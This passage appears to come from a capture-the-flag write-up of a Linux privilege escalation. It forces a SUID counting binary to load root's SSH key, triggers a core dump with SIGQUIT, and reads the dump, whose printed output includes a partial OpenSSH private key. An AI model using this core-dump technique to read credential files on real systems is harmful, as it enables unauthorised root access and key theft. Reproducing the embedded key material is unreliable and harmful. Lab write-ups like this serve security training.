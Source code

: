 With this knowledge we can now run the binary and check if root's private ssh key exists. This is indeed the case meaning the key is now inside the processe's memory. All that is left to do now is to send a signal to the process that triggers a core dump. One possible way here is SIGQUIT which can be sent with `CTRL + \\\\ `.

```
dasith@secret:~$ /opt/count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^\\Quit (core dumped)
```

To find the dump we look in the `/var` directory for files that got created in the last minute, which returns `/var/lib/apport/coredump/core._opt_count.1000.7541fd7b-4a83-42d7-a1f9-8aec0a5180dd.2214.795094`

```
dasith@secret:~$ find /var -cmin -1 2>/dev/null
/var/log/apport.log
/var/lib/apport/coredump
/var/lib/apport/coredump/core._opt_count.1000.7541fd7b-4a83-42d7-a1f9-8aec0a5180dd.2214.795094
/var/lib/mongodb/diagnostic.data
```

This core dump which is owned by us contains root's ssh key.

```
dasith@secret:~$ cat /var/lib/apport/coredump/core._opt_count.1000.7541fd7b-4a83-42d7-a1f9-8aec0a5180dd.2214.795094
ELF>@@8
...[snip]...
/root/.ssh/id_rsa
$L3UL3UL3UL3UL3UL3UL3U\\3Uuc2K3UK3Uc2`c2-----BEGIN OPENSSH PRIVATE KEY-----
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
```